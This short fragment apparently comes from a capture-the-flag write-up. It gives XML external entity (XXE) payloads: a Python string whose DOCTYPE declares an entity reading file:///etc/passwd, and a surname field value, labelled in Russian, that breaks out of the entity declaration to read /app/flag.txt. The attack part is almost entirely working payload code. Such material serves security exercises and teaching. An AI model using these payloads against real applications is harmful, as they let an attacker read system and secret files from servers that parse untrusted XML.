 _xml_string = """
<!--?xml version="1.0" ?-->
<!DOCTYPE userCard [
                    <!ENTITY firstName "Max">
                    <!ENTITY lastName "<data>&file;</data>">
                    <!ENTITY role "xxx">
                    <!ENTITY file SYSTEM "file:///etc/passwd">
                    ]>
<userInfo>
	<fullRef>&firstName; &lastName;, &role; &file;</fullRef>
	<firstName>&firstName;</firstName>
	<lastName>&lastName;</lastName>
</userInfo>
"""

Фамилия:
```
&file;"><!ENTITY file SYSTEM "file:///app/flag.txt
```